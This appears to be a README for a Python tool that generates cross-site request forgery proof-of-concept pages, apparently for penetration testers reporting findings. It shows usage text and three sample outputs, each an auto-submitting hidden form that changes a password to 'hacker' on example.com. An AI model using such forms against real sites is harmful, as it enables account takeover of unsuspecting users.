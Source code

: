 # CSRF PoC Generator
This is a pyhton script which generates PoC for Cross-site request forgery with autosubmit form. you just need to provide Url, method and parameters.


# Required Package

```python3 -m pip install yattag```

# Usage

# Options
```
root@ghost:~# python3 csrf_poc_gen.py -h
usage: csrf_poc_gen.py [-h] [-m METHOD] [-u URL] [-p PARAMETERS] [-a AUTHOR]
                       [-e ENCTYPE]

This is a pyhton script which generates PoC for Cross-site request forgery
with autosubmit form. you just need to provide Url, method and parameters.

optional arguments:
  -h, --help            show this help message and exit
  -m METHOD, --method METHOD
                        Method
  -u URL, --url URL     url
  -p PARAMETERS, --parameters PARAMETERS
                        Request parameter
  -a AUTHOR, --author AUTHOR
                        Name of Author
  -e ENCTYPE, --enctype ENCTYPE
                        enctype
```



# To Generate PoC 

Note: Parameters should be in key value pair (key=value&key=value)
```
root@ghost:~# python3 csrf_poc_gen.py -u http://example.com -m post -p "new_password=hacker&re_new_password=hacker" 
<html>
  <title>
    This CSRF was found by 
  </title>
  <body>
    <h1>
      This POC was Created By CSRF PoC Generator Tool
    </h1>
    <form action="http://example.com" method="POST" enctype="application/x-www-form-urlencoded">
      <input type="hidden" name="new_password" value="hacker" />
      <input type="hidden" name="re_new_password" value="hacker" />
    </form>
    <script>document.forms[0].submit();</script>
  </body>
</html>
```



# Enctype
it supports 3 enctype ```application/x-www-form-urlencoded```, ```multipart/form-data``` and ```text/plain```.

```
root@ghost:~# python3 csrf_poc_gen.py -u http://example.com -m post -p "new_password=hacker&re_new_password=hacker" -e "text/plain"
<html>
  <title>
    This CSRF was found by 
  </title>
  <body>
    <h1>
      This POC was Created By CSRF PoC Generator Tool
    </h1>
    <form action="http://example.com" method="POST" enctype="text/plain">
      <input type="hidden" name="new_password" value="hacker" />
      <input type="hidden" name="re_new_password" value="hacker" />
    </form>
    <script>document.forms[0].submit();</script>
  </body>
</html>
```



# With Discoverer Name

```
root@ghost:~# python3 csrf_poc_gen.py -u http://example.com -m post -p "new_password=hacker&re_new_password=hacker" -a "Hacker man"
<html>
  <title>
    This CSRF was found by Hacker man
  </title>
  <body>
    <h1>
      This POC was Created By CSRF PoC Generator Tool
    </h1>
    <form action="http://example.com" method="POST" enctype="application/x-www-form-urlencoded">
      <input type="hidden" name="new_password" value="hacker" />
      <input type="hidden" name="re_new_password" value="hacker" />
    </form>
    <script>document.forms[0].submit();</script>
  </body>
</html>
```
